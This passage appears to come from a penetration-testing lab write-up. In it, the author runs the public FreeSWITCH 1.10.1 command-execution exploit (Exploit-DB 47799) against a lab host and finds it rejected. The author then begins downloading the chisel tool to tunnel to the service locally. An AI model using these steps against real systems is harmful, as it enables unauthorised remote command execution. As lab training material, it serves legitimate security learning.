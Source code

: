 `47799` looks useful, let's try it

```console
┌──(root㉿kali)-[~]
└─# searchsploit -m 47799
  Exploit: FreeSWITCH 1.10.1 - Command Execution
      URL: https://www.exploit-db.com/exploits/47799
     Path: /usr/share/exploitdb/exploits/windows/remote/47799.txt
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /root/47799.txt



┌──(root㉿kali)-[~]
└─# mv 47799.txt 47799.py

┌──(root㉿kali)-[~]
└─# python3 47799.py 10.0.88.33 whoami
Not prompted for authentication, likely not vulnerable
```

It appears the target machine rejects connections, as also can be seen form the `Content-Type: text/rude-rejection` returned in nmap scan

☝️ If there is a service running but rejects external connections, it may be configured to allow only local connections

**Important learning point:** Try to find methods to execute the exploit on the machine locally if external connection fails

## 4.3. Targeting the FreeSWITCH services - locally

### Establish port forwarding to the target at the service port on local address

Prepare chisel server on Kali:

```console
┌──(root㉿kali)-[~]
└─# curl -LO https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100 3158k  100 3158k    0     0  6676k      0 --:--:-- --:--:-- --:--:-- 6676k

┌──(root㉿kali)-[~]
└─# gzip -d chisel_1.7.7_linux_amd64.gz

┌──(root㉿kali)-[~]
└─# mv chisel_1.7.7_linux_amd64 chisel

┌──(root㉿kali)-[~]
└─# chmod +x chisel
```
